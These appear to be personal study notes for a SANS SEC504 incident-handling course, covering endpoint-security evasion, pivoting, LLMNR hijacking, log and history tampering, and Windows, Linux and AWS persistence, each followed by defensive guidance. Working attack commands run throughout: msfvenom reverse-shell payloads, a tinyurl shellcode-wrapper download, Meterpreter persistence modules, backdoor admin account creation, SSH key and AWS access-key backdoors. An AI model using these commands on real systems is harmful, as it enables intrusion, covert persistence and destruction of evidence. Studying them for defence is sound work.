# Sec 504 book5

the last book already :(  ,so here we will start to shift into focus what attacker do post exploitation, ofc then don't just sit in the system what do they do we’ll find out here.

## Endpoint Security Bypass:

for most modern system attackers expect that there will be an endpoint security system, whether is the legacy antivirus that uses signature detection or an endpoint detection and response platform, now attackers have two ways to deal with it one to modify an existing tool to evade detection or two modify there tactics to use tools and techniques that achieve there goals without raising an alert. for sophisticated attacker bypassing an end point security system is always possible but not from the first try.

### Ghostwriting:

is the process of modifying the assembly of an executable in order to bypass endpoint detection system by inserting junk code (lines of code that modify the program, but with no lasting change on the execution of the program). Ex. a program that prints the sum of `2+2` so  u make it calculate the value of `2-(-2)` same output different method, you can make a modification like `adding 10` the `subtracting 10` . as you can see this will not change the program output but will make it evade detection. 

### steps:

Create an .exe

Convert it to an .asm file

Edit the .asm file

 Convert it back to an .exe file

lets get into the steps of doing this on a real executable, so the first step is to for you to have a binary to start with so lets start with making a binary using `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.144.151 LPORT=4444 -f raw -o payload.raw --platform windows -a x86`, to generate a payload to preform a reverse TCP connection, then save it. Next use Metasm library to convert the row file`payload.raw` to ASCII asm source`payload.asm`, using this command `ruby /opt/metasm/samples/disassemble.rb payload.raw >payload.asm`.

now what we need to do is to edit the assembly file and obfuscate it, First lets look for any xor in the code, we look for `xor’ing` a registry against it self in order to empty it as xor by it self equal zero. we can also add a `PUSH`and `POP` operation, all this dose is just add code that dose nothing but cover up the dirty code, changing the hash of the file making it undetected by antiviruses.

after making the changes to the asm source , we recompile it back into a PE executable using this command `ruby /opt/metasm/samples/peencode.rb payload.asm -o payload.exe`, after this the attacker will test it locally to see if is evades the endpoint security system, in most cases multiple edits will be made until its working.

### DefenderCheck:

for an attacker the question is how much ghostwriting is needed until its not detected, and which parts on the file should i change. attackers will use OSINT to discover the endpoint protection system used by the target install it locally and isolate it from the internet then use this system to test there sample on it until it can  evade it successfully.

DefenderCheck is a tool that helps attackers with this process, so here is exactly what it dose , it takes a file and scans it on a local windows 10 using Windows defender if it raises an alert it will split it in two and scan then indecently, discarding the part that dose not raises an alert and so on until it pin point the chunk that raising an alert. 

in the example it checks the Mimkatz executable scanning it until if identifies a 112 byte chunk that alerts windows, now the attacker can focus on using ghostwriting techniques to modify this part and make a version that undetected. 



### Additional endpoint bypass techniques:

deploying the malware on the system exclusion directory that now scanned by the endpoint detection system, use keyed payload which is when the payload is encrypted using a key that taken from the environment variable, so the key is not in the binary itself and so the signature will be different for each instance of the malware. and using lesser known language like Golang as some products have issues parsing go. also attackers can digitally sign there malware, as it marks it some what trusted.

most of the projects that provided new techniques for evading endpoint security systems have all closed there doors, as tools like this becomes popular the endpoint suite add detection for this project. so developers stop sharing there techniques publicly to prolong there private use. this is bad for defenders as since this slows down the rate endpoint detection systems can improve and detect new techniques.

one technique that still works is living off the lands or LOL so instead of using third party apps attackers just abuse existing trusted tools to accomplish there gools. 

### LOL ─ Atbroker Invocation:

so using a built in tool that signed and included in windows by Microsoft to lunch malicious content. so attackers abuse it to lunch malware at the same level of trust. in this Ex. we cant lunch a malware.exe so we can configure stbroker.exe to run any arbitrary executable on the system , by making a registry key for the malware as such `HKLM\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Accessibility\ATs\malware`, and add two registry entries `TerminateOnDesktopSwitch` with a `REG_DWORD` value of 0 (zero) and `StartExe` with a path to the malware executable. which will make the malware run evading the endpoint security control. 

### MSBuild C# Execution:

is another opportunity for attackers. its used to build and execute C, C++, C#. code an attacker can use MSBuild to run code written in any of the C lang’s by compiling and running a source file. for an attackers that a great opportunity since MsfVenom can export any Metasploit payload into C# code. so using this command `msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.0.6 lport=4444 -f csharp > meterpreter.cs`, MSBuild cant compile and run this C# code directly so the attacker download an MSBuild shellcode wrapper.  `wget https://tinyurl.com/msbuildshellcode -O file.csp`, `nano file.csproj # Replace shellcode with new payload` , Next per our usual practice, start a Metasploit handler waiting for the reverse TCP payload.  `msfconsole -qx "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LPORT 4444; set LHOST 0.0.0.0; exploit"` , with the modified MSBuild shellcode wrapper the attacker can execute the MsfVenow payload using the MSBuild.exe executable. `c:\windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe file.csproj`

### Defenses:

bypassing an endpoint protection system is always possible with time, this doesn't mean defenders should give up on endpoint protection system, but invest in a good EDR platform that current and will-maintained , lavage features like app trust list, threat hunting, logging and monitoring systems. also  User and Entity Behavior Analytics (UEBA) tools are also valuable to capture normal system behavior and to identify deviations from those patterns (e.g., WS-ACCT-05 is running MSBuild.exe and has never done so before).

the main benefit of these tools are not that thy stop the attackers form the first time, every time in most cases, they will stop the attackers initially , then they will find a technique to evade it eventually, however this first block / log will give you a heads up, when paired with rapid incident response this may stop the whole attack.



## Pivoting and Lateral Movement:

attackers can reuse there command and control C2 access to pivot and gain access to new hosts in the network, like using the Meterpreter C2 framework, either deployed as part of the initial exploit or through an independent payload generated using MsfVenow.

### Meterpreter Pivoting:

Meterpreter offers serval options to make it easy for an attacker to access the internal network target by reusing the C2 link. Lets look at the example, we have the attacker `96.97.98.99`has compromise the internal system at `10.10.10.11`(whatever the method is ), so this internal system becomes the week link or the pivot point.



using Meterpreter an attacker can start a proxy server to listen on the `96.97.98.99`that forwards all traffic through the C2 link within, inside the organization all the traffic will appear to be from `10.10.10.11`, but is actually from the attacker. 

also an attacker can reuse the Meterpreter C2 link and leverage additional Metasploit exploits or `auxiliary`modules to attack the internal system using the `route`command.

also attackers can connect to a specific port and IP within the network you can setup a port forwarder using the `portfwd`command. like so `portfwd add -l 8000 -r 10.10.10.100 -p 80`.

### ROUTE Pivoting:

so lets start with an existing session in Meterpreter obtained through `exploit/windows/smb/psexec`we’ll use the `background`command to go back to the console prompt. then start the `rout`command so any access to the `10.10.10.0/24`  network should be delivered through the Meterpreter session here, once established any Metasploit where the `RHOST`targets an IP in that IP range it will traverse to our session link.

### Host Discovery and Port Scanning:

Metasploit route feature can be used for auxiliary modules as well, allowing to perform port scanning within Metasploit, lets assume we have a session ,but there is no built in port scanners, as it can only preform LAN host scanning using the `arp_scanner` module, like so `run arp_scanner -r 10.10.10.0/24`, and if any hosts are found we can follow that up with a port scanning on them. there are several modules can be used like namp db_nmap and `auxiliary/scanner/portscan/tcp`, now we can specify the ports we want to scan  and start scanning.  

for Linux or UNIX systems , SSH can help and offer some features for pivoting, like we can use SSH to set up a simple port forward through the host to a specific target. lets take a look at this command `ssh -L 8000:10.10.10.100:80 victortimko@10.10.10.11`, where the `-L` is to establish additional port forwarding the first IP is the victim and the second is where  the data is forworded to. another option is to use the `-D` followed by an arbitrary port number will start a SOCKS proxy server to the attacker system, allowing them to use any SOCKS proxy-aware client to communicate through SSH tunnel. 

for windows systems we have netsh a built-in command line tool to listen and forward any activity to a remote IP and TCP port, using a command like this  `netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100 connectport=80`, but with one little change the listening port here  is the victim’s not the attackers. 

pivoting doesn't require complex  poet redirectors , it can be achieve using a lot of lolbins, like in UNIX we can use `smbclient` to attack a system instead of installing `nmap` , or use `ncat` to port scan instead of proxy servers use `wget` and `curl` to interact with the web server,  and for windows PowerShell offers powerful functionality that mirrors powerful UNIX tools.

Pivoting through a compromised system is really a question of opportunity for an attacker. What new targets, data resources, and opportunities for evasion become possible using pivoting. 

Lateral movement involves many of the same attacks that we've already looked at in this course, but it also introduces new opportunities for an attacker. Some attacks such as machine-in-the-middle (MITM) attacks or local password harvesting attacks only become possible after an initial compromise, or through access to a privileged network position. In this book, we'll continue to look at lateral movement techniques within the network, using pivot points to make these attacks possible



## Hijacking Attacks:

this attack , the adversary response for a system request for a service, and pretending to be a legitimate system, sometimes this involves the use of Machine-In-The-Middle MITM, is also operates by observing podcasted request for the server on the LAN and inject a response to be processed by the client (target), for attackers one powerful opportunity to abuse is a resolution protocol like the Link-Local Multicast Name Resolution (LLMNR), pretend to be a server and trick the victim into sending authentication credentials. the Ex. here explain this attack where a victim send a multicast LLMNR massage to the LAN asking for sevrer01 a type by the user, failing DNS resolving into an LLMNR request, all the devices see the request but non response, except the attacker saying i’m sevrer01 with there IP add so the victim connects to in and sends an authenticate request calculated with the victim password hash that the attacker can then use for password cracking material.

### Responder:

the tool Responder is a powerful example of hijacking attack, in windows environment Responder wait for any LLMNR request and act as a windows SMB server where a victim try to connect and there credentials are logged automatically. lets take a look at how attackers do there lil tricks we’ll be using Linux though  there are a windows version, `sudo /opt/Responder/Responder.py -I eth0` , this start the responder app where the `-I` specify the target interface , and we can also use `-i` if you want to forwarded the captured data to another machine. 

when a user request a service where the hostname isn't answered responder will reply to the final resolution attempt multicast DNS with the attackers IP , this force the user to connect to the attacker service possibly disclosing NTLMv2 authentication hash info. 

### Defenses:

the best defense is to disable it LLMNR support on servers and workstation, it was once valuable to small workstation. LLMNR can be disabled using Group Policy by visiting `Computer Configuration | Administrative Templates | Network | DNS Client`, and enabling the Turn off multicast name resolution option. also LLMNR can be disabled using a local system's Local Policy Editor or through a registry edit. also enable VLANs whenever you can also use Further User and Entity Behavior Analysis (UEBA) tools, either host-based or network-based, can also be valuable to quickly characterize attacks that would indicate post-compromise activities.



## Covering Tracks:

attackers have three big goals compromising the target,  achieving post- exploitation goals , and evade detection for as long as possible. step in evading detection vary from minor changes like (such as cleaning up extraneous files an exploit leaves behind), and sophisticated log removal and deployment of rootkits.

### Hiding Files in UNIX:

in UNIX/Linux systems hidden filles are those files that begins with a dot as the first character, as defenders we know we can view these files with the ls -a, but we don't use it this much cuz it can show much unneeded files , in addition to using this method attackers may store files inside directories which might not be noticed like the `/dev, /tmp, /etc` ,`/dev`this contains info about the devices in the systems like chunks of your hard drive and references to terminal, its full of files.`/tmp` this contains strangely named files created by various applications to store temporally data. Making it  a good hiding spot but it gets deleted on reboot, soo attackers need to restore that data to this location. another set of locations is to store data in complex parts in the file system, as users don't  understand these parts and admins don't care to scour these areas either. like the `/use/local/man` (the main pages), and the `/usr/src` (containing source code in Linux). with privileged access to the file system, attackers can create directories of there own that blends with with other legit directories, lets take a look at this example `/etc/initd` with all the file extensions changed to .conf despite being tar files, this `/etc/initd` doesn't look out of shape but the real directory name is `/etc/init.d` , so here the attacker tried to mislead the defenders, if the attacker doesn't have root access to the system they will be limited to were they can write the files. this command `find / -type d -perm -0222 2>/dev/null` 
will show you all the directories this user can write to.

### UNIX Log Editing:

after attacks take over a system , they usually want to alter the system logs to erase the entries associated with the techniques hey used to gain access to they system, some might just clear the whole logs deleting every thing on the system, but this is easily noticeable by the sysadmins, more sophisticated attacks will only delete selected entries from the log file. only entities where the attacker gained access like incorrect logins or process crashing will be removed.  on a UNIX system the syslog process stores logs for the machine, the configuration for the system logger is found in the `/etc/syslog.conf` file, when a carful attacker takes over a system they will loot at the system stores its log config file and modify it. by default UNIX sores there logs in the`/var/log`directory, some apps have there own directories Ex. Apache use the `/var/log/httpd` , and Nginx use `/usr/local/nginx/logs`. with root privilege an attacker can edit the log file many of the logs in the `/var/log` are written in ASCII so they are editable using any text tool like `vi` or `nano`.

### shell history:

whenever you type a command in UNIX shell the shell have the option of recording each command. by default the bash shell history is stored in `$HOME/.bash_history` for each user , the default size is 500 commands but some go up to a 1000 recent command, attackers don't want the investigators to know what happened so they will often edit the bash history file. the history is written when the shell is executed , and the most recent command is not store in the file as they are stored in the RAM  first, this is an opportunity for attackers as they can run some commands to prevent the command form being saved like, `unset HISTFILE` or `kill -9 $$` . in some Linux distros placing a space before the command will eliminate it form being saved to the shell history but only when the when the environment variable `HISTCONTROL` is set with the value `ignorespace`. 

### Accounting entries in UNIX:

UNIX systems have four files known as the accounting files, the `utmp`file stores information about all users currently logged in the system. this file is consulted by the `who`command to print a list of users with actively logged in sessions on the system, `wtmp`file stores info about all users who have ever logged into the machine, `btmp`files stores info about bad login attempts, this is often  configured to set off because it stores bad user ID attempts as they might have password accidentally typed by the users, the `lastlog`file shows info associated with the most recent login time and date for each user. attackers want to modify these files so sysadmins cant tell what they are up to, but attackers cant simply edit the `utmp, wtmp, btmp and lastogin` files, these files are written in a `utmp`structure so it must be edited with a tool that support it,  while tools are there to edit these files but attackers just remove them all. 

### Windows - Alternate Data Streams:

attackers will always leverage techniques to hide their activities from defenders. for windows this comes down to hiding files and processes, or hiding evidence of an attack from the event log files. one opportunity is to hide files in the `NTFS, ReFS`file systems, it leveraging the Alternate Data Streams ADS,  in supported file systems ADS streams allow a single file to have a default stream of data while also supporting additional independent data streams. the stream content follows the files as its copied /moved to different partitions as long as its file system supports ADS, when defenders examine files using the `dir, Get-ChildItem` or even open windows Explorer they only see the default streams.  

### creating ADS:

you can use the type command like here `type NTDS.dit > Kitchen.docx:NTDS.dit` , where the first part is the `NTDS.dis` you want to put in the `kitchen.docx` file to hide it, and in PowerShell attackers use `Set-Content` to add an additional data stream, like in this command `Get-Content -Path .\NTDS.dit | Set-Content -Path .\OfficeKitchen.docx -Stream NTDS.dit`, where first we read the file using `Get-content` , then writing the new stream to it using the `Set-Content` with the new stream name. notepad can also be used to hide data in ADS using a command like this `notepad defaultfile.txt:secretfile.txt`, the data store in an ADS can be anything the attacker wants such as binary files , PowerShell script Microsoft office files and even executable, and to lunch them these files attackers use this command `wmic process call create C:\TEMP\OfficeKitchen.docx:flamingo.exe`, the last part is the full path and the ADS name. 

### finding ADS:

several tools area available to identify alternative data streams some are built-in command like the `dir /r` which will show all the files and data streams in this directory , and also the PowerShell’s  `Get-Item * -Stream *`, but in PowerShell you can also search all subdirectories limiting the finding to only not default data-streams using this command `Get-ChildItem -recurse | ForEach { Get-Item $_.FullName -stream * } | Where stream -ne ':$DATA'`,also Microsoft Sysinternals tool `streams64.exe -s -d` will identify alternate data streams recursively `-s`, with the added ability to remove non-default streams `-d` .

### Defenses:

one of the most effective ways to defend logs is to just use a separate logging server, if the attacker takes over one of the systems they can find the logs and alter them, but if these logs are sent into a remote system he wont be abele to remove all the evidence, instead they will need to attack the logging server.  in UNIX the syslog process can be easily configured to send logs to remote host by editing the conf file , for windows you can deploy the Windows Event Forwarding WEF tool. as well as using User and Entity Behavioral Analytics , look at gaps or corrupted logs and look for unusual files.



## Establishing Persistence:

one goal for almost all attackers it to establish a persistence mechanism on a compromised host, many exploits and attacks wont grant an attacker persistence mechanism on a system, as a reboot or any defensive action may terminate the attacker access, that why persistence is needed 
choosing a persistence mechanisms depend on other goals like: regain access to compromised system, avoid detection, preserve privileges and access, Flexible triggers for reestablishing access. for many attackers the persistence method is built into the attack framework and the C2 tools used against the system. this could be Metasploit Meterpreter, or any tool or framework.

### Persistence on Windows:

### Creating Accounts:

the most straightforward way an attacker can establish persistence on a system, we know the `net user` command can enumerate users on windows, but it can also be used to creating an account and making it admin, using this Meterpreter shell established from a previous exploit we can run commands of the victim windows system , using the `execute`allows the attacker to run any local commands with the `-f` argument , the command feed will run as a background non interactive process.`execute -f "net user /add assetmgtacct Att@ckerPassw”` , this command will create the user with the given name and password (where the password must meet the minimum password complexity requirement ), after creating the user attacker will add him to the local administrators group with this command`execute -f "net localgroup administrators /add assetmgtacct"`,  finally to verify every thing is working executing this command `execute -i -f "net user"`  where the `-i`gives you back the output and makes it interactable not just feeding the command like the past commands.

### Services:

in addition to OS specific commands Metasploit and other frameworks offers scripts for persistence in a more automated manner. like the `persistent service`exploit. Windows services are background tasks that are managed by the OS  and can startup automatically at boot based on another service or after a specified delay, making it a golden opportunity to me misused and establish persistence. the Metasploit `persistence_service`module will automate the process of creating the service and running automatically generated payload written to temp directory.

### Silent Process Exit:

attackers try to abuse built-in facilities in Windows to establish persistence, in this way it wont look suspicious making a better way to evade detection, Windows includes lots of features made  for developers, one of them is the silent process exit debug, which is used by developers to lunch a debugger process when a target process is terminated (normally or unexpectedly), but its used by attackers as a persistence mechanism.  in Metasploit there is the exploit  `persistence_image_exec_options` which lavage the silent process exit mechanism but to start it needs SYSTEM privileges, which means attackers first step is to mitigate into a process withe this privilege using this command `migrate -N GoogleCrashHandler64.exe`where the crash_handler is a system privilege process you can run `ps -s` from Meterpreter to list all SYETEM processes, then background the process , and start to load the exploit using `use exploit/windows/local/persistence_image_exec_options`, after doing so the attacker start to set the `lhost` and `port`, `image_file` indicate after which process exit we should start  another , and `payload_name`is which process will be opened after the exit finally lunch with `run` .

these are all the parameters and what inputs they take , so the process will start after notepad is closed and will lunch the calc.exe

`set lhost 10.10.75.1`

`set image_file notepad.exe`

`set path c:\\temp`

`set payload_name calc`

`set session 1`

`run`

now lets imagine a scenario where the attackers Meterpreter process dies(windows reboots), the attacker want to reestablish the connection , so he just start a reverse tcp with the IP and wait for the victim to open and close notepad , so out debugger process will run establishing a new Meterpreter session with the attacker here we used notepad.exe but we can use any other process we want like outlook.exe word.exe, this   silent process exit configuration is persistent on the Windows system, saved in the Windows registry at `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\ProcessName`, where ProcessName is the silent process exit target. Anytime the attacker loses access to the compromised system, they need only wait for Notepad (or any other targeted process) to open and close to reestablish access. this mechanism is attractive to an attacker because they are less predictable for establishing access. Unlike a service that is always running, a silent process exit persistence mechanism may be dormant for hours to months depending on the usage of the victim system and the selected target process. 

### WMI Event Subscription:

Windows Management Instrumentation(WMI) is a built-in feature it allows users to interface with the drivers and system components(built-in and third party) to collect data also allows users to subscribe to and be notified of arbitrary Windows events. that similar to scheduled tasks, where code run based on a condition like a time of day or delay , but this is even more flexible, WMI can run a code/ program based on almost any system behavior like boot up failed login CPU spikes disk full message and many other events. this flexibility is valuable for attackers as a persistence mechanism like scheduled tasks and attacker can create a process that will run and establish C2 connection to the attackers, but with WMI attackers get the nearly unlimited flexibility for the type of event that triggers the code execution.

to leverage WMI attackers have several options one is to write a Managed Object File F with a `.mof` extension that describes the subscription service and the event to trigger that will run the malicious code. the MOF language is similar to C++ in syntax and its compiled and executed using Windows built-in tool `mofcomp.exe` , the other way to leverage WMI is to use the built-in `wmi_persistence`exploits on Metasploit framework or other tools.

returning to a Meterpreter session we will run the exploit using, `use exploit/windows/local/wmi_persistence`, so here the exploit will run when a user login fail with the username of josh is attempting to login `set username_trigger josh`, then we’ll use to set a delay before executing the payload `set callback_interval 1000` , to trigger the payload the attacker must attempt to login and fail , triggering event ID `4624`, this can be triggered by the `smbclient` tool or any other login like SMB and RDP connections.

### Active Directory Persistence: Golden Ticket Persistence

windows systems use Kerberos as a modern authentication mechanism allowing untrusted devices in a network to verify the identity and authorization for users and services in every windows domain there will be a kerberos user account often with the name `kbrtgt (Kerberos Ticket Granting Ticket)`.

the password for this user is generated when a domain is created and its used as the root of trust in the kerberos network, responsible for all authorization in intermediate level. in the kerberos network there is this attack called the golden ticket attack these are the four basic steps this attack grants attackers unauthorized access and persistence to the network.

first an attacker must compromise a domain controller, through a exploit that grants admin privilege or any other manner 

next the attacker must retrieve the krbtgt user password hash 

once the attacker have the password hash, this hash can be used to forge Ticket Granting Tickets (TGTs) using `Mimikatz` or `Impacket`. 

finally with the ability to forge TGTs, an attacker can skip the Kerberos authentication process, simply by feeding the forged trusted ticket at any service on the network 

in this attack the adversary abuse the root of trust in kerberos network to sidestep all the authentication requirements, this kind of attack is also seen when a certificate authority AC is compromised, as all the roots of authentication services is under the attackers hand he can forge tokes as he wish.

### Web Shells:

compromised systems that run a web service are common targets for web shell persistence mechanism where an attacker modifies the web page or app to gain persistence. after compromising the web server an attacker can insert code that when executed will give an attacker remote access to the system, this can be done by changing a file or adding a new one with web shell code to the server some times this can be hidden or obfuscated to avoid detection. lets take an example where a file names `imageupload.html` that added by the attacker that allowed an attacker to submit one or more command to be executed. 

### Linux persistence:

so far we have looked in tons of persistence mechanisms , most of which can be applied in Linux like the add user which can be achieved using the `adduser` command scheduled tasks created using `crontab`, debugging facilities are available through the GNU debugger gdb. and finally SSH is often used for remote access in Linux instead of creating a new user attackers can choose to add a new SSH public key entry in the users `authorized_keys`file to remote login without relying on known user password once the victim system have the attacker public key in the `authorized_keys`file, the attacker now can login using there private key bypassing the password entry with the `-i` argument.

lets look at the steps:

`attacker $ ssh-keygen`

`victim $ cat >> ~/.ssh/authorized_keys, <paste contents of attacker_rsa.pub>`

### cloud Persistence:

cloud are another target for an adversary to obtain persistence access in the cloud, while some of the principles mentioned before can be applied here , but cloud are targeted by manipulating the Identity and Access Management (IAM) functionality's.

getting access to LAM allows attacker to gain privileged access to the infrastructure if the cloud account is compromised attackers can create new users , create backdoors key access to account so even if the password is changed you can still login 

for AWS attackers can enumerate IAM accounts with the aws cli tool using this command `aws iam list-user`, AWS accounts allow up to two remote access keys for each IAM user account so the attacker wants to identify a user that has 1 or no keys already associated with there account using this command `aws iam list-access-keys --user-name jsmith` , once the attacker identifies the target user account they can create a new access key using this `aws iam create-access-key --user-name jsmith`.

### Defense:

persistence defense techniques, are concerned with discovery and identification. Since persistence is a post-exploitation technique, remediation is also important after we identify the source of the persistence, but that comes after identification.

for windows use the Sysinternals `Autoruns`, as it shows all the attacks we have discussed. Auto-Start Extensibility Points (ASEPs), scheduled tasks, services, WMI event subscriptions, and event-triggered execution through debugging capabilities (silent process exit), in a clean GUI, and cli if you want. 

other techniques like adding anew user we can use methods that allows to identify unauthorized changes like the use of `net user`commands. 

also monitor windows for these events ID `4624`(An account was successfully logged on), `4634`(An account was logged off), `4672`(Special privileges assigned to new logon), `4732`(A member was added to a security-enabled local group), `4648`(A logon was attempted using explicit credentials), `4688` (A new process has been created), `4697`(A service was installed in the system), and `4768`(A Kerberos authentication ticket (TGT) was requested).

if you suspect an attacker has compromised the domain using a golden ticket attack, it is necessary to change the krbtgt password twice. The krbtgt account keeps a password history of 1, so change the password once is not enough to invalidate the attacker's access to forge Kerberos tokens.

one problem with using any of these things or even PowerShell commands is that thy don't scale well so you need to invest in a enterprise EDR tool.

always keep in mind that attackers will deploy more then one persistence method as the goal of an attacker, so deploying two or more persistence techniques gives an attacker even more reliability and flexibility in meeting their goals. As an incident responder, don't assume that the persistence method you've identified is the only method used by an attacker.

be carful with your analysis use Microsoft tools like `netstat, wmic, reg, schtasks, sc`. As an incident responder, your greatest strength in identifying persistence is understanding the techniques that are applied by adversaries to achieve their goals.

